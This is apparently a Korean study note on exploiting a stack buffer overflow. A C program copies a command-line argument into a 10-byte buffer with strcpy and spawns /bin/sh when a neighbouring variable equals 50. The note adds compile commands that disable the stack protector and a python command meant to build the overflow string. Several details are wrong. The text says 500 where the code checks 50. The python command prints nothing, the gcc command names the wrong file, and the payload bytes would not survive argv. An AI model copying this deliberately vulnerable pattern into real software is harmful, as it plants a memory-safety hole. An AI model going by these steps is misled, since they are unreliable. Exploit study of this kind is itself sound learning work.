 ```c
//ROTTEN_TOMATO.c
#include <stdio.h>
#include <string.h>

void func(){
  puts("This is func()");
}

void sum(int x, int y){
  printf("sum: %d\n",x+y);
  func();
}

int main(int argc, char *argv[]){
  int num=0;
  char arr[10];
  
  sum(1,2);
  
  strcpy(arr, argv[1]);
  printf("arr: %s\n",arr);
  if(num==50){
    system("/bin/sh");
   }
}
```

명령행으로 받은 인자로 arr[10]을 모두 채우고, overflow를 통해 num을 500으로 바꿔줘야함  

```
$ gcc ROTTEN_TOMATO -fno-stack-protector -o rotten_tomato
$ python -c '"A"*10 + "\x00\x00\x00\x32"' > attack_string

$ ./rotten_tomato `cat attack_string`
```
* ./file_name \`\~\~\~\` 이런식으로 인자를 넘겨주면 쉘 커맨드의 출력값을 명령행인자로 넣을 수 있음  

`$ cat attack_string | ./rotten_tomato`  
But, 이런식으로 하면 argv[1]에 아무 값도 들어가지 않아서 
`strcpy(arr, argv[1]);`에서 세그폴 발생
